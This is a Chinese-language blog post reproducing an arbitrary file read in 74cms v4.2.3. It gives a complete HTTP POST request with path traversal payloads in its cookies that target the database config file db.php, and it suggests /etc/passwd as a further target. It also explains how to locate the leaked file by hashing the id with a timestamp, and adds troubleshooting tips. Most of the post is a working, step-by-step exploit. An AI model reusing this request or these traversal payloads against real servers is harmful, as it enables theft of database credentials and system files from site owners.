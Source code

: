 ```yaml
---
title: 74cms v4.2.3任意文件读取
tags: CMS
categories: 技术分享
abbrlink: b5945507
date: 2019-10-21 19:59:46
updated: 2019-10-21 19:59:46
---
```


## 前言

关于漏洞的分析请看这篇文章[74cms v4.2.3前台任意文件读取]( https://balis0ng.com/post/dai-ma-shen-ji/2017-07-05 )，大佬分析的很详细，我这里不作分析，仅复现漏洞。

## 漏洞复现

先尝试读取 db.php，向服务器post如下数据

```
POST /index.php?m=&c=members&a=register HTTP/1.1
Host: 10.1.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36 
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: members_bind_info[temp_avatar]=../../../../Application/Common/Conf/db.php; members_bind_info[type]=qq; members_uc_info[password]=xcxmiku; members_uc_info[uid]=123456; members_uc_info[username]=xcxmiku
Content-Type: application/x-www-form-urlencoded

ajax=1&reg_type=2&utype=2&org=bind&ucenter=bind
```

会返回如下数据

![](https://i.loli.net/2019/10/21/NPhFWOcK6wd3TQA.png)

 在/data/upload/avatar/年月/日文件夹下 会生成一张图片

![](https://i.loli.net/2019/10/21/NitTmDKRWvFMUJ6.png)

这张图片的名称由id和时间戳的md5值构成，我们可以将Burp Suite上返回的时间转换为时间戳

![](https://i.loli.net/2019/10/21/aBcimVp8erndODU.png)

不过这个时间可能会有误差，如果不行就把时间+-10

我post的id为654321，获取的时间戳为1571659588，将他们连在一起进行md5加密

![](https://i.loli.net/2019/10/21/WuoP3xDBIOgrHQE.png)

成功获取图片名，然后访问 10.1.1.1/data/upload/avatar/1910/21/9aaa3653bf6ec9491bc002b52521962c.jpg ，保存该图片用文本打开就是 db.php 的内容。

###### PS:

在没有Burp Suite的情况下可以直接使用[在线ＰＯＳＴ]( http://coolaf.com/ )，参数如下

![](https://i.loli.net/2019/10/22/rQOT4Nw5ZIgC3o2.png)

在Header可获取到时间戳

![](https://i.loli.net/2019/10/22/Htl8Le2sYUIT9Nx.png)

## 可能会遇到的问题

###### post数据返回unicode编码

因为名称，密码，ID等内容格式不对或重复会出现这种情况，将unicode编码进行解码，按提示修改即可。

###### 读取其他文件

../../../../Application/Common/Conf/db.php

是读取db.php，如果想读取根目录可以构造

../../../../../../../../etc/passwd

###### 时间戳问题

服务器返回的时间，服务器返回的是GMT格林威治标准时间，没有加上时区，只记录分秒即可


